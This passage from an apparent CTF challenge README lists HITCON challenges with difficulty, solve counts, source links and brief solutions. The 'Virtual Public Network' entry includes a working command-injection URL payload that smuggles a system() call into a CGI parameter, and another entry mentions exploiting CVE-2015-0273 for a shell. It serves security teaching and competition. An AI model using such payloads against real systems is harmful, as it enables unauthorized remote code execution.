 #### Write Ups

* TBD


## **Return of Use-After-Flee**
  
Difficulty: **★★★★★**  
Solved: **0 / 1281**  
Tag: **WhiteBox**, **PHP**, **UAF**, **PWN**  

#### Source Code

* [Source](hitcon-ctf-2020/Return-of-Use-After-Flee/)  

#### Solution

* Exploiting `CVE-2015-0273` to pop the shell without known binaries. More detail will be published in [my blog](http://blog.orange.tw/) soon.


#### Write Ups

* TBD



## **Virtual Public Network**
  
Difficulty: **★☆**  
Solved: **81 / 1147**  
Tag:   **WhiteBox**, **Perl**, **Command Injection**  

#### Source Code

* [Source](hitcon-ctf-2019/virtual-public-network/)  

#### Solution

* Refer my blog and Black Hat 2019 USA slides for details 
    * [Attacking SSL VPN - Part 3: The Golden Pulse Secure SSL VPN RCE Chain, with Twitter as Case Study!](https://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html)
    * [Infiltrating Corporate Intranet Like NSA: Pre-auth RCE on Leading SSL VPNs](https://i.blackhat.com/USA-19/Wednesday/us-19-Tsai-Infiltrating-Corporate-Intranet-Like-NSA.pdf)  

```
http://13.231.137.9/cgi-bin/diag.cgi
?options=-r@a="ls -alh /",system@a%23 2>tmp/orange.thtml <
&tpl=orange
```


#### Write Ups

* TBD


## **Bounty Pl33z**
  